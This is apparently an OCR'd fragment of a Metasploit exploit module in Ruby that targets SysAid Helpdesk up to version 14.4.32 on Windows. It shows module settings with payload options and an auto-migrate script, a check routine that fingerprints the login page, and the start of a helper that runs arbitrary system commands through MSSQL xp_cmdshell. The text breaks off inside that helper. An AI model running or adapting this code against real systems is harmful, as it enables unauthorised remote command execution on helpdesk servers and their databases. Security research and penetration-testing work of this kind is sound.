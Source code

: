 ```
          ['CVE', 'xxxx'],
        ],
      'Payload'        =>
        {
          'BadChars' => "\x00"
        },
      'DefaultOptions'  =>
        {
          'InitialAutoRunScript' => 'migrate -f'
        },
      'Platform'       => 'win',
      'Targets'        =>
        [
          ['Sysaid Helpdesk <= v14.4.32 b25', {}]
        ],
      'Privileged'     => false,
      'DisclosureDate' => "Aug 29 2015",
      'DefaultTarget'  => 0,

))

      register_options(
        [
          OptPort.new('RPORT',     [true, "The web application's port", 8080]),
          OptString.new('TARGETURI', [true, 'The base path to to the web application', '/'])
        ], self.class)
  end

  def check

    peer = "#{rhost}:#{rport}"
    uri = target_uri.path
    uri = normalize_uri(uri,"Login.jsp")

    print_status("#{peer} - Checking for vulnerability")

    res = send_request_cgi({
      'method'    => 'GET',
      'uri'       => uri,
      'vars_get' => {
      }
    })

    v = res.body.scan(/\<title\>SysAid Help Desk Software\<\/title\>/)
    if not v
        vprint_error("Is this even a Sysaid Help Desk?")
        return Exploit::CheckCode::Safe
    else
        vprint_status("Identified system as Sysaid Help Desk")
	return Exploit::CheckCode::Appears

    end

    return Exploit::CheckCode::Unknown

  end

  def mssql_xpcmdshell(cmd,doprint=false,opts={})
    force_enable = false
    begin
      res = mssql_query("EXEC master..xp_cmdshell '#{cmd}'", doprint)
      #mssql_print_reply(res) if doprint

```